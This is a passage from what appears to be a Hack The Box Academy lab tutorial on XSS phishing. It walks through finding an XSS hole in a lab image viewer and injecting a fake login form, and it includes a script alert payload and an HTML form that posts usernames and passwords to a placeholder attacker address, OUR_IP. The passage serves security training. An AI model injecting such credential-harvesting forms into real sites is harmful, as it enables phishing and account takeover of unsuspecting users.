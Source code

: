 
<h1>Phishing</h1>
<hr/>
<p>Another very common type of XSS attack is a phishing attack. Phishing attacks usually utilize legitimate-looking information to trick the victims into sending their sensitive information to the attacker. A common form of XSS phishing attacks is through injecting fake login forms that send the login details to the attacker's server, which may then be used to log in on behalf of the victim and gain control over their account and sensitive information.</p>
<p>Furthermore, suppose we were to identify an XSS vulnerability in a web application for a particular organization. In that case, we can use such an attack as a phishing simulation exercise, which will also help us evaluate the security awareness of the organization's employees, especially if they trust the vulnerable web application and do not expect it to harm them.</p>
<hr/>
<h2>XSS Discovery</h2>
<p>We start by attempting to find the XSS vulnerability in the web application at <code>/phishing</code> from the server at the end of this section. When we visit the website, we see that it is a simple online image viewer, where we can input a URL of an image, and it'll display it:</p>
<img class="website-screenshot" data-url="http://SERVER_IP/phishing/index.php?url=https://www.hackthebox.eu/images/logo-htb.svg" src="/storage/modules/103/xss_phishing_image_viewer.jpg"/>
<p>This form of image viewers is common in online forums and similar web applications. As we have control over the URL, we can start by using the basic XSS payload we've been using. But when we try that payload, we see that nothing gets executed, and we get the <code>dead image url</code> icon:</p>
<img class="website-screenshot" data-url="http://SERVER_IP/phishing/index.php?url=&lt;script&gt;alert(window.origin)&lt;/script&gt;" src="/storage/modules/103/xss_phishing_alert.jpg"/>
<p>So, we must run the XSS Discovery process we previously learned to find a working XSS payload. <code>Before you continue, try to find an XSS payload that successfully executes JavaScript code on the page</code>.</p>
<div class="card bg-light">
<div class="card-body">
<p class="mb-0">Tip: To understand which payload should work, try to view how your input is displayed in the HTML source after you add it.</p>
</div>
</div>

<hr/>
<h2>Login Form Injection</h2>
<p>Once we identify a working XSS payload, we can proceed to the phishing attack. To perform an XSS phishing attack, we must inject an HTML code that displays a login form on the targeted page. This form should send the login information to a server we are listening on, such that once a user attempts to log in, we'd get their credentials.</p>
<p>We can easily find an HTML code for a basic login form, or we can write our own login form. The following example should present a login form:</p>
<pre><code class="language-html">&lt;h3&gt;Please login to continue&lt;/h3&gt;
&lt;form action=http://OUR_IP&gt;
    &lt;input type="username" name="username" placeholder="Username"&gt;
    &lt;input type="password" name="password" placeholder="Password"&gt;
    &lt;input type="submit" name="submit" value="Login"&gt;
&lt;/form&gt;
</code></pre>
<p>In the above HTML code, <code>OUR_IP</code> is the IP of our VM, which we can find with the (<code>ip a</code>) command under <code>tun0</code>. We will later be listening on this IP to retrieve the credentials sent from the form. The login form should look as follows:</p>
<pre><code class="language-html">&lt;div&gt;
&lt;h3&gt;Please login to continue&lt;/h3&gt;
&lt;input type="text" placeholder="Username"&gt;
&lt;input type="text" placeholder="Password"&gt;
&lt;input type="submit" value="Login"&gt;
&lt;br&gt;&lt;br&gt;
&lt;/div&gt;
</code></pre>
<p>Next, we should prepare our XSS code and test it on the vulnerable form. To write HTML code to the vulnerable page, we can use the JavaScript function <code>document.write()</code>, and use it in the XSS payload we found earlier in the XSS Discovery step. Once we minify our HTML code into a single line and add it inside the <code>write</code> function, the final JavaScript code should be as follows:</p>